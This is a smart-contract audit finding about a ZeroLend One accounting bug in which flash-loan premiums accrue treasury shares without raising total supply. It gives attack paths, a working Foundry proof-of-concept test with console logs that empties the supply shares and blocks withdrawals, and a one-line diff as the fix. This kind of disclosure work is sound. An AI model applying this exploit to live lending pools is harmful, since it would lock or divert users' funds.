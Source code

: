 Joyous Cedar Tortoise

High

# _handleFlashLoanRepayment does not increment total supply when accruing to treasury

### Summary

[`FlashLoanLogic._handleFlashLoanRepayment()`](https://github.com/sherlock-audit/2024-06-new-scope/blob/a150815e6e6cae8b14a4ca5bb05d545f6a5e07ae/zerolend-one/contracts/core/pool/logic/FlashLoanLogic.sol#L106) does not increment total supply when accruing shares to the treasury

however when executing the mint to the treasury, it decreases total supply

This means that after a single flash loan occurs, the total supply of the shares will be less than the sum of each user’s share balance.

This leads to a race to withdraw since the last user will not be able to withdraw all their shares.

### Root Cause

FlashLoanLogic._handleFlashLoanRepayment() does not increment total supply when accruing shares to the treasury

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

**Main vulnerability:**

Say the pool has 10 ETH supplied, and 10e18 shares

Say flash loan premium is `0.1%`

Let 100 flash loans occur, with average loaned amount of 5 ETH

Total premium paid = `0.1% * 100 * 5 ETH`  = `0.5` ETH

Hence, `0.5 ETH` worth of shares (assume 0.5e18 shares) were accrued to the treasury, but total supply was not increased

When the next withdrawal occurs, `0.5 ETH` will be transferred to the treasury, and `0.5e18` supply shares will be burned.

In the new state, `totalSupply.supplyShares` is equal to `9.5e18`

**The issue:** the sum of all users’s balance.supplyShares is still equal to `10e18`

This leads to a race to withdraw for the users, since the last user will not be able to withdraw `0.5e18`  shares.

**Alternative attack path:**

Say the pool has 10 ETH supplied, there is a vault that supplies liquidity to it

Say flash loan premium is `0.1%`

1. Supply 1 wei 
2. Take a flash loan of the entire pool liquidity, repay it immediately
3. Repeat step 2, 999 times ( $\frac{1}{0.1\%} -1$ times, where $0.1\%$ is the flash loan premium)
4. Take and repay one last flash loan, this time with `amount=1000 ETH - 1000 wei` (This ensures that the 1 wei of supply shares still remains)
5. Then redeem the 1 wei of shares. Within `executeMintToTreasury()`, it will burn the 10 ETH worth of shares, and transfer 10 ETH worth of assets to the treasury.

Now `supplyShares` = 0. As a result:

1. Nobody can supply via the vault, since `supplyAssets` within `_supplyPool` will always amount to `0`
2. Nobody can withdraw via the pool or via the vault, since reducing `supplyShares` any further will underflow.

### Impact

**Main impact:**

Due to incorrect share supply accounting, users will race to withdraw their funds from a pool after flash loan interest accrues. This leaves the last withdrawer at a loss since they will not be able to withdraw `0.5e18` shares.

**Impact for alternative attack path:**

Effectively, the funds stored in the pool are moved over to the treasury, so users are unable to withdraw the funds permanently. The attacker spends an amount equal to the pool assets. For smaller pools this is very feasible for the attacker.

### PoC

The alternative attack path is an extreme version of the main one. We have provided a PoC for the alternative attack path, which also proves the main impact (the main impact is that sum(user supplyShares) >  totalSupply.supplyShares)

**Running the PoC**
Add the import to test/forge/core/pool/PoolFlashLoanTests.t.sol
```solidity
import {console} from "../../../../lib/forge-std/src/console.sol";
```
Add this foundry test to `test/forge/core/pool/PoolFlashLoanTests.t.sol`
<details><summary>Foundry test </summary>

```solidity
function testJ_alt_flashLoanSpammer() public {
        bytes memory emptyParams;
        MockFlashLoanSimpleReceiver mockFlashSimpleReceiver = new MockFlashLoanSimpleReceiver(pool);
        _generateFlashloanCondition();

        address treasury = poolFactory.treasury();
        uint256 treasuryBalanceBefore = tokenA.balanceOf(treasury);
        uint256 poolBalanceBefore = tokenA.balanceOf(address(pool));
        poolFactory.setFlashloanPremium(10); // 0.1%
        
        console.log('BEFORE: total supply shares is %e', _getSupplyShares(address(tokenA)));

        vm.startPrank(alice);
        deal(address(tokenA), address(alice), 1 wei);
        tokenA.approve(address(pool), 1 wei);
        pool.supplySimple(address(tokenA), alice, 1 wei, 0);
        
        for (uint i = 0; i < 1000; i++) {
            pool.flashLoanSimple(address(mockFlashSimpleReceiver), address(tokenA), 2000 ether, emptyParams);
        }
        vm.stopPrank();


        vm.startPrank(alice);
        pool.withdrawSimple(address(tokenA), alice, 1 wei, 0);


        console.log('AFTER: total supply shares is %e', _getSupplyShares(address(tokenA)));

        uint256 treasuryBalanceAfter = tokenA.balanceOf(treasury);
        uint256 poolBalanceAfter = tokenA.balanceOf(address(pool));

        console.log("treasury balance: %e-->%e", treasuryBalanceBefore, treasuryBalanceAfter);
        console.log("pool balance: %e-->%e", poolBalanceBefore, poolBalanceAfter);
    }
```
</details>

**Console logs:**
```bash
[PASS] testJ_alt_flashLoanSpammer() (gas: 65941764)
Logs:
  BEFORE: total supply shares is 2e21
  AFTER: total supply shares is 0e0
  treasury balance: 0e0-->2e21
  pool balance: 2e21-->2e21
```


### Mitigation

Within `_handleFlashLoanRepayment()`, increment the total supply when minting shares to the treasury

```diff
    _reserve.accruedToTreasuryShares += _params.totalPremium.rayDiv(cache.nextLiquidityIndex).toUint128();
+   totalSupplies.supplyShares += _params.totalPremium.rayDiv(cache.nextLiquidityIndex).toUint128();
```
